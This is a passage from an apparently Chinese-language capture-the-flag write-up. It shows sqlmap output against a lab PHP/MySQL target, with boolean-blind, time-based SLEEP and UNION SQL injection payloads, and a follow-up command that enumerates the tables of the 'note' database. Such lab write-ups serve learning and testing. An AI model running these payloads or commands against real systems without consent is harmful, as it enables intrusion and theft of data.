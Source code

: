 ```bash
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:17:34 /2022-08-17/

[09:17:35] [INFO] resuming back-end DBMS 'mysql' 
[09:17:35] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 5975=5975 AND 'OwTY'='OwTY

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 9341 FROM (SELECT(SLEEP(5)))ejmq) AND 'mlWM'='mlWM

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-5185' UNION ALL SELECT NULL,NULL,CONCAT(0x71766b7171,0x514f4844786a687267776b504557574e487759506c79594248626342486779595a766c64674a7863,0x71717a7071)-- -
---
[09:17:35] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.5.9
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[09:17:35] [INFO] fetching current database
current database: 'note'
[09:17:35] [INFO] fetched data logged to text files under '/home/tyd/.local/share/sqlmap/output/1254-b717b966-a0b5-43fe-b410-f15797bb4381.do-not-trust.hacking.run'                                                 

[*] ending @ 09:17:35 /2022-08-17/
```

得到数据库名`note`后，继续输入`-D note --tables`爆破表信息：

```bash
sqlmap -u "https://1254-b717b966-a0b5-43fe-b410-f15797bb4381.do-not-trust.hacking.run/index.php?id=1" -D note --tables
        ___
       __H__                                                                                              
 ___ ___["]_____ ___ ___  {1.6.7#stable}                                                                  
|_ -| . [,]     | .'| . |                                                                                 
|___|_  [']_|_|_|__,|  _|                                                                                 
      |_|V...       |_|   https://sqlmap.org                                                              

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:22:07 /2022-08-17/

[09:22:07] [INFO] resuming back-end DBMS 'mysql' 
[09:22:07] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
```